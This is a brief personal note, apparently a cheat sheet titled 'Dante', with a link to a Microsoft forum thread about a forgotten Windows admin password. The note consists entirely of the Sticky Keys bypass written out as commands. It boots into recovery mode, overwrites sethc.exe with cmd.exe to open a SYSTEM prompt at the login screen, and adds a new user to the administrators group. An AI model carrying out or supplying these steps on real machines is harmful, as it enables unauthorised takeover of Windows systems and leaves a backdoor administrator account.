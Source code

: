 # Dante

Hyperlinks
https://answers.microsoft.com/en-us/windows/forum/all/windows-in-safe-mode-but-forgot-admin-password/3008d430-40e6-406e-80af-c0dfae721a50

Recovery mode - Shift + restart
Command Prompt
Copy c:\Windows\system32\sethc.exe c:\
Copy /y c:\Windows\System32\Cmd.exe C:\Windows\System32\sethc.exe

restart

Shift-5 Times

net user User /add
net localgroup administrators User /add
